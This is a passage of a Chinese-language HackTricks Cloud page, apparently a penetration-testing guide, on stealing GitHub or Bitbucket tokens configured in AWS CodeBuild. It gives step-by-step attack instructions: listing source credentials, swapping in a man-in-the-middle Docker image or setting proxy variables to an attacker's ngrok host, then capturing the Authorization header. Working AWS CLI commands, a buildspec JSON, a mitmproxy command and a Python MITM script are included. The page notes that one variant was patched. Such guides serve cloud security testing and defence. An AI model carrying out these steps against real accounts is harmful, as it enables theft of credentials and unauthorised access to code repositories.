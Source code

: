 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 PDF 版的 HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何可能泄露的源凭据：
```bash
aws codebuild list-source-credentials
```
### 通过Docker镜像

如果您发现例如Github的身份验证已在帐户中设置，您可以通过使Codebuild使用特定的Docker镜像来运行项目的构建来**泄露**该**访问权限**（GH令牌或OAuth令牌）。

为此，您可以**创建一个新的Codebuild项目**或更改现有项目的**环境**以设置**Docker镜像**。

您可以使用的Docker镜像是[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基本的Docker镜像，将设置**环境变量`https_proxy`**，**`http_proxy`**和**`SSL_CERT_FILE`**。这将允许您拦截大部分在**`https_proxy`**和**`http_proxy`**中指定的主机的流量，并信任**`SSL_CERT_FILE`**中指定的SSL证书。

1. **创建并上传您自己的Docker MitM镜像**
* 按照存储库的说明设置代理IP地址并设置SSL证书，并**构建Docker镜像**。
* **不要设置`http_proxy`**以不拦截对元数据端点的请求。
* 您可以使用类似于`ngrok tcp 4444`的`ngrok`将代理设置为您的主机。
* 构建完成Docker镜像后，**将其上传到公共存储库**（Dockerhub，ECR...）。
2. **设置环境**
* 创建一个**新的Codebuild项目**或**修改**现有项目的环境。
* 设置项目使用**先前生成的Docker镜像**。
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **在您的主机中设置MitM代理**
* 如**Github存储库**中所示，您可以使用类似于以下内容的内容：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **运行构建并捕获凭据**

*   您可以在**Authorization**头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过aws cli来完成，例如：
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### 通过HTTP协议

{% hint style="success" %}
**这个漏洞在2023年2月20日的某个时间点被AWS修复了（我想是星期五）。所以攻击者不能再滥用它了 :)**
{% endhint %}

一个拥有**CodeBuild的高权限的攻击者可以泄露配置的Github/Bitbucket令牌**，或者如果权限是通过OAuth配置的，可以泄露**用于访问代码的临时OAuth令牌**。

* 攻击者可以将环境变量**http\_proxy**和**https\_proxy**添加到CodeBuild项目中，指向他的机器（例如`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* 然后，将github仓库的URL更改为使用HTTP而不是HTTPS，例如：**http://**github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy和https\_proxy）指向的端口上运行[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击**构建项目**，**凭证**将以明文（base64）发送到mitm端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出所有权限，并且比直接使用CodeBuild服务更容易地滥用。
{% endhint %}

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
